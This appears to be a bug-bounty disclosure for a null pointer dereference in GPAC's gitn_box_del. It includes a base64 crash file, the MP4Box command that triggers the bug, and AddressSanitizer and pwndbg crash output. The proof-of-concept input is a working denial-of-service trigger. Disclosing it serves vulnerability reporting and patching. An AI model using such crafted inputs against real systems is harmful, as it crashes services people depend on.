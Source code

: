 # PwnKit-Hunter Exploit Reproduction

## POC URL
https://huntr.com/bounties/d7a534cb-df7a-48ba-8ce3-46b1551a9c47


## Description
Null Pointer Dereference in gitn_box_del

## Proof of Concept
echo -n AAAAEW1ldGEwMDAwMDAwMDAAAABjMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAAAARZ2l0bjAwMDAwMDAwMA== | base64 -d > poc
./MP4Box -bt ./poc

## Sanitizer output:
AddressSanitizer:DEADLYSIGNAL
=================================================================
==6791==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000008 (pc 0x7f32f604f350 bp 0x606000000380 sp 0x7ffec6197280 T0)
==6791==The signal is caused by a READ memory access.
==6791==Hint: address points to the zero page.
    #0 0x7f32f604f350 in gitn_box_del (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1cc350)
    #1 0x7f32f606c54d in gf_isom_box_del (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1e954d)
    #2 0x7f32f606c32e in gf_isom_box_parse_ex (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1e932e)
    #3 0x7f32f606baab in gf_isom_parse_root_box (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1e8aab)
    #4 0x7f32f60747bd in gf_isom_parse_movie_boxes (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1f17bd)
    #5 0x7f32f6075ca5 in gf_isom_open_file (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1f2ca5)
    #6 0x4de8fd in mp4boxMain (/home/presler/fuzzing/gpac/bin/gcc/MP4Box+0x4de8fd)
    #7 0x7f32f5afc0b2 in __libc_start_main /build/glibc-eX1tMB/glibc-2.31/csu/../csu/libc-start.c:308:16    #8 0x429b2d in _start (/home/presler/fuzzing/gpac/bin/gcc/MP4Box+0x429b2d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (/home/presler/fuzzing/gpac/bin/gcc/libgpac.so.10+0x1cc350) in gitn_box_del
==6791==ABORTING
gdb output
gdb ./MP4Box -q
Reading symbols from ./MP4Box...
pwndbg> r -bt ./poc
Starting program: /home/presler/fuzzing/gpac_pure/bin/gcc/MP4Box -bt ./poc
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[iso file] Box "meta" (start 0) has 5 extra bytes
[iso file] Unknown top-level box type 0000

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7936e3f in gitn_box_del () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────── RAX  0x0
 RBX  0x0
 RCX  0x10000100
 RDX  0x3030
 RDI  0x5555555d22f0 ◂— 0x6769746e /* 'ntig' */
 RSI  0x7ffff7df51ba ◂— 'no-check'
 R8   0x0
 R9   0x0
 R10  0x7ffff7748e42 ◂— 'gf_isom_box_del'
 R11  0x7ffff7955d40 (gf_isom_box_del) ◂— endbr64
 R12  0x0
 R13  0x6769746e
 R14  0x5555555d22f0 ◂— 0x6769746e /* 'ntig' */
 R15  0xffffffec
 RBP  0x5555555d22f0 ◂— 0x6769746e /* 'ntig' */
 RSP  0x7fffffff7d40 —▸ 0x5555555d22f0 ◂— 0x6769746e /* 'ntig' */
 RIP  0x7ffff7936e3f (gitn_box_del+47) ◂— mov    rdi, qword ptr [r8 + rax + 8]
───────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────── ► 0x7ffff7936e3f <gitn_box_del+47>     mov    rdi, qword ptr [r8 + rax + 8]
   0x7ffff7936e44 <gitn_box_del+52>     test   rdi, rdi
   0x7ffff7936e47 <gitn_box_del+55>     je     gitn_box_del+112 <gitn_box_del+112>
    ↓
   0x7ffff7936e80 <gitn_box_del+112>    add    rbx, 1
   0x7ffff7936e84 <gitn_box_del+116>    movzx  eax, dx
   0x7ffff7936e87 <gitn_box_del+119>    cmp    eax, ebx
   0x7ffff7936e89 <gitn_box_del+121>    ja     gitn_box_del+40 <gitn_box_del+40>
    ↓
   0x7ffff7936e38 <gitn_box_del+40>     mov    rax, rbx
   0x7ffff7936e3b <gitn_box_del+43>     shl    rax, 4
   0x7ffff7936e3f <gitn_box_del+47>     mov    rdi, qword ptr [r8 + rax + 8]
   0x7ffff7936e44 <gitn_box_del+52>     test   rdi, rdi
───────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────00:0000│ rsp 0x7fffffff7d40 —▸ 0x5555555d22f0 ◂— 0x6769746e /* 'ntig' */
01:0008│     0x7fffffff7d48 —▸ 0x7fffffff7ec0 ◂— 0x0
02:0010│     0x7fffffff7d50 —▸ 0x5555555d22f0 ◂— 0x6769746e /* 'ntig' */
03:0018│     0x7fffffff7d58 —▸ 0x7ffff7955d6c (gf_isom_box_del+44) ◂— test   r12, r12
04:0020│     0x7fffffff7d60 —▸ 0x7fffffff7ec0 ◂— 0x0
05:0028│     0x7fffffff7d68 —▸ 0x5555555ca500 —▸ 0x5555555c92e0 ◂— 0xfbad2498
06:0030│     0x7fffffff7d70 ◂— 0x11
07:0038│     0x7fffffff7d78 —▸ 0x7ffff7956570 (gf_isom_box_parse_ex+1888) ◂— cmp    qword ptr [rsp + 8], 0
─────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────── ► f 0   0x7ffff7936e3f gitn_box_del+47
   f 1   0x7ffff7955d6c gf_isom_box_del+44
   f 2   0x7ffff7956570 gf_isom_box_parse_ex+1888
   f 3   0x7ffff7956a30 gf_isom_parse_root_box+64
   f 4   0x7ffff795f17c gf_isom_parse_movie_boxes_internal+236
   f 5   0x7ffff7960907 gf_isom_open_file+311
   f 6   0x55555557f614 mp4boxMain+19444
   f 7   0x7ffff75470b3 __libc_start_main+243
────────────────────────────────────────────────────────────────────────────────────────────────────────pwndbg> bt
#0  0x00007ffff7936e3f in gitn_box_del () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10
#1  0x00007ffff7955d6c in gf_isom_box_del () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10#2  0x00007ffff7956570 in gf_isom_box_parse_ex () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10
#3  0x00007ffff7956a30 in gf_isom_parse_root_box () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10
#4  0x00007ffff795f17c in gf_isom_parse_movie_boxes_internal () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10
#5  0x00007ffff7960907 in gf_isom_open_file () from /home/presler/fuzzing/gpac_pure/bin/gcc/libgpac.so.10
#6  0x000055555557f614 in mp4boxMain ()
#7  0x00007ffff75470b3 in __libc_start_main (main=0x55555556d500 <main>, argc=3, argv=0x7fffffffdd08, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdcf8) at ../csu/libc-start.c:308
#8  0x000055555556d53e in _start ()
Impact
This vulnerability is capable of crashing software, so I think this can be described as DoS.